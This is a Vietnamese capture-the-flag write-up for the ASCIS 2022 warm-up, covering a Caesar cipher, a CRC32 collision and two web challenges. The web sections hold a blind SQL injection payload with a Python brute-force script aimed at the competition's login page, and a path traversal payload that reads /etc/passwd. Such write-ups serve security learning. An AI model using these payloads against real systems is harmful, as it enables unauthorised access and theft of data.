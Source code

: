 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# ASCIS 2022 - warm up

## Crypto

### I came, I saw, I conquered

#### chall

```
jhlzhy dhz h wvspapjphu huk nlulyhs vm aol shal yvthu ylwbispJ, dov nylhasf lealuklk aol yvthu ltwpyl ilmvyl zlpgpun wvdly huk tHrpun optzlsm kpjahavy vm yvtl, whcpun aol dhf mvy aol ptwlyphs zfzalt.

qbspbz jhlzhy dhz ivyu pu yvtL vu 12 vy 13 qbsf 100 ij puav aol wylzapnpvbz qbsphu jshu. opz mhtpsf dlyl jsvzlsf jvuuljalk dpao aol thyphu mhjapvu pu yvthu wvspapjz. jhlzhy optzlsm wyvnylzzlk dpaopu aol yvthu wvspapjhs zfzalt, iljvtpun pu zbjjlzzpvu xbhlZavy (69), hlkpsl (65) huk wyhlavy (62). pu 61-60 ij ol zlyclk hz nvclyuvy vm aol yvtHu wyvcpujl vm zwhpu. ihjr pu yvtl pu 60, jhlzhy thkl h whja dpao wvtwlf huk jyhzzbz, dov olswlk opt av nla lsljalk hz jvuzbs mvy 59 ij. aol mvssvdpun flhy ol dhz hwwvpualk nvclyuvy vm yvthu nhbs dolyl ol zahflk mvy lpnoa flhyz, hkkpun aol dovsl vm tvklYu myhujl huk ilsnpbt av aol yvthu ltwpyl, huk thrPun yvtl zhml myvt aol wvzzpipspaf vm nhsspj puchzpvuz. ol thkl adv lewlkpapvuz av iYpahpu, pu 55 ij huk 54 ij.

jhlzhy aolu yLabyulk av pahsf, kpzylnhykpun aol Hbaovypaf vm aol zluhal huk mhtvbzsf jyvzzpun aol ybipjvu ypcly dpaovba kpzihukpun opz hytf. pu aol luzbpun jpcps dhy jhlzhy klmlhalk aol ylwbispjhu mvyjlz. wvtwlf, aolpy slhkly, mslk av lnfwa dolyl ol dhz hzzhzzpuhalk. jhlzhy mvssvdlk opt huk iljhtl yvthuapjhSsf pucvsclk dpao aol lnfwaphu xbllu, jslvwhayh.

jhlzhy dhz uvd thzaly vm yvtl huk thkl optzlsm jvuzbs huk kpjahavy. ol bzlk opz wvdly av jhyyf vba tbjo-ullklk ylmvyt, ylsplcpun klia, lushynpun aol zluhal, ibpskpun aol mvybt pbspbt huk ylcpzpun aol jhslukhy. kpjahavyzopw dhz hsdhfz ylnhyklk h altwvyhyf wvzpapvu iba pu 44 ij, jhlzhy avvr pa mvy spml. opz zbjjlzz huk htipapvu hspluhalk zayvunsf ylwbispjhu zluhavyz. h nyvbw vm aolzl, slk if jhzzpbz huk iybabz, hzzhzzpuhalk jhlzhy vu aol pklz (15) vm thyjo 44 ij. aopz zwhyrlk aol mpuhs yvbuk vm jpcps dhyz aoha luklk aol ylwbispj huk iyvbnoa hivba aol lslchapvu vm jhlzhy'z nylha ulwold huk klzpnuhalk olpy, vjahcphu, hz hbnbzabz, aol mpyza ltwlyvy.
```

#### Work-flow

* Brute Decryt Caesar -> với key bằng 7 ta có được plaintext
* Để ý các chữ cái viết hoa
* Viết một đoạn script ngắn nối chúng lại

#### solve

```python
f = open("cipher.txt", "r")
cipher = f.read()
import string 
alpha = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"
for i in cipher: 
	if i == i.upper() and i in alpha :
		print(i, end="")
```

### Checksum

#### Chall

```python
import binascii

FLAG = 'ASCIS{XXXXXXXXXXX}'

def check_key(passwd):
    if len(passwd) < 16:
        return False
    if binascii.crc32(passwd.encode()) != binascii.crc32(FLAG.encode()):
        return False
    return True

password = input('What is the password?: ')
if check_key(password):
    print('Correct! Here is the flag: ' + FLAG)
else:
    print('Sorry! This is the hash we want:' + str(hex(binascii.crc32(FLAG.encode()))))
```



#### Work-flow

* Từ code ta phân tích được cần tìm một chuỗi có crc32 trùng với crc32 của FLAG
* Lúc này ta nhập bừa trước để có crc32 của flag
* Nhập thử nhiều lần để chắc rằng flag không bị refresh

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* Đến đây ta decode hex và tìm được crc32 cần phải có là: **1706263782**

Lúc mới vào nhìn bài 1 mình hơi phân vân nên có nhảy sang bài 2 scout trước, ai ngờ đề có lỗi do không có trường hợp else để ra dạng crc32 của FLAG, lúc đó mình hơi hoảng và tư duy theo hướng brute force như thế nào?

Search quanh một xíu được vài tài liệu hay ho rồi thì BTC fix lại đề, cập nhập thêm vế else, đến đây thì như cá gặp được nước rồi :)).

* Mình tìm được được doc [<mark style="color:blue;">này</mark>](https://github.com/fyxme/crc-32-hash-collider)<mark style="color:blue;"></mark>
* Người ta đã code sẳn tool rồi việc còn lại là đổi số **target** và **length** string cần tìm

```
const target = 1706263782 & 0xffffffff

// max string length
maxLen := 16
```

#### solve

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption><p>Lâu lâu hóa chaos được lần </p></figcaption></figure>

* Kỉ niệm lâu lâu được lần solve thứ 2 :smile:

## WEB

### AscisStore1

#### chall

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Trang web bán hàng có chức năng login và register</p></figcaption></figure>

#### Work-flow

* Chọt phá dòng quanh -> khai thác SQLI ở login
* Thử với username như sau (có khoảng trắng ở sau dấu comment -- )

```
' or ord(substring(password,1,1)) = 65 --  
```

* Lúc này nhận thấy server trả về với user **`flag`**

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

* Như vậy có thể đoán được password của user flag chính là secret cần tìm
* Lúc này ta chỉnh lại query userser cho đúng với target, để tránh brute force sai

```
flag' and ord(substring(password,{index},1)) = {char} -- 
```

* and ở đây để cố định password cho username đã biết là flag
* nếu dùng or như ở trên sẽ dẫn đến trường hợp kết quả password query được chính là của toàn bộ database -> brute sai

#### solve

```python
import request

url = "http://34.143.158.202:4111/index.php?page=login"
#SELECT * from users WHERE username='flag' AND password = 'ord(substring(password,{index},1)) = {char} -- '

def solve():
	index = 1
	flag = ""
	while True:
		for char in range(32,128):
			usernamefield = f"flag' and ord(substring(password,{index},1)) = {char} -- "
			print(chr(char))
			passwordfield = "a"
			postParam = {'username': usernamefield, 'password': passwordfield}
			response = requests.post(url, data=postParam)
			if "flag" in response.text:
				flag += chr(char)
				print("index:",index,"  ", flag )
				index +=1
				break
		if flag.endswith("}"):
			break


solve()py
#index: 23    ASCIS{SQ11-I5-t0o-EA$Y}
```

### AscisStore2

#### Chall

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption><p>web bán hàng tương tự bài trên nhưng có chức năng profile</p></figcaption></figure>

#### Work-flow

* Chấm mút quanh chức năng mới -> chức năng profile cho đăng ảnh lên
* Rất có khả năng là File up load to RCE hoặc path travesal
* Up thử tấm ảnh nyc lên :

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

* Sau khi up lên ta thấy path trong đó có file image.php thì không còn nghi ngờ gì nữa -> path traversal for sure

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

#### solve

* Lần theo path rồi thử mọi cách path traversal thoi, chân ái is here:

```
....//....//....//....//....//....//....//....//....//etc/passwd
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Lời thú tội của một đá thủ

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Top 10 khu vực miền nam</p></figcaption></figure>

> Gửi lời cảm ơn chân thành nhất đến với các người ae trong team.
>
> Lâu rồi mới có cảm giác như những ngày đầu tiên tham gia CTF.
>
> Một ngày vui và học được nhiều thứ, đến lúc lui về ở ẩn rồi. Cảm ơn ae



Thanks for reading. Have a good day :heart: !
